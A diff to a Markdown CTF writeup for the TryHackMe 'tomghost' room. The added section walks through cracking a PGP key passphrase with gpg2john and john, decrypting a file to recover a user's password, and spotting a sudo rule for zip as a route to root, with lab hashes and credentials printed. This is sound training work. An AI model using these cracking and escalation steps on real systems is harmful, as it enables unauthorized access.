

Before and after one commit to Aryt3/writeups, a Markdown page: tryhackme/tomghost/readme.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/tryhackme/tomghost/readme.md
+++ b/tryhackme/tomghost/readme.md
@@ -105,4 +106,79 @@ skyfuck@ubuntu:~$ cat /home/merlin/user.txt
 THM{GhostCat_1s_so_cr4sy}
 ```
 
-Seems like we got our first flag.
+Seems like we got our first flag. <br/>
+The next thing would be to escalate priviledges.
+```sh
+skyfuck@ubuntu:~$ sudo -l
+[sudo] password for skyfuck:
+Sorry, user skyfuck may not run sudo on ubuntu.
+```
+
+Now this didn't work, I could look around more but my guess is that I have to use the 2 files from earlier. <br/>
+Copying the files to my local machine:
+```sh
+scp skyfuck@$ip:/home/skyfuck/* .
+skyfuck@10.10.46.67's password:
+credential.pgp                                                                          100%  394     2.7KB/s   00:00
+tryhackme.asc                                                                           100% 5144    34.9KB/s   00:00
+```
+
+After some research I found a way to use john to bruteforce the .gpg file.
+```sh
+└─# gpg2john tryhackme.asc > abc.gpg
+
+File tryhackme.asc
+
+└─# ls
+abc.gpg  credential.pgp  tryhackme.asc
+
+└─# cat abc.gpg
+tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
+
+└─# john --wordlist=Desktop/rockyou.txt abc.gpg
+Using default input encoding: UTF-8
+Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
+No password hashes left to crack (see FAQ)
+
+└─# john --show abc.gpg
+tryhackme:alexandru:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
+
+1 password hash cracked, 0 left
+
+└─# gpg --import tryhackme.asc
+gpg: /root/.gnupg/trustdb.gpg: trustdb created
+gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
+gpg: key 8F3DA3DEC6707170: secret key imported
+gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
+gpg: Total number processed: 2
+gpg:               imported: 1
+gpg:              unchanged: 1
+gpg:       secret keys read: 1
+gpg:   secret keys imported: 1
+
+┌──(root㉿kali)-[/home/kali/tryhackme/tomghost]
+└─# gpg --decrypt credential.pgp
+gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
+gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
+      "tryhackme <stuxnet@tryhackme.com>"
+merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
+```
+
+Like this I was able to get the password for user merlin, so now I only need to switch to this user.
+```sh
+skyfuck@ubuntu:~$ su merlin
+Password:
+merlin@ubuntu:/home/skyfuck$ whoami
+merlin
+```
+
+The only thing left now is priv esc so let's see what we got elevated permissions for.
+```sh
+merlin@ubuntu:/home/skyfuck$ sudo -l
+Matching Defaults entries for merlin on ubuntu:
+    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
+
+User merlin may run the following commands on ubuntu:
+    (root : root) NOPASSWD: /usr/bin/zip
+```
+
````
Also changed, not shown: other parts of tryhackme/tomghost/readme.md (+20 -1 lines).
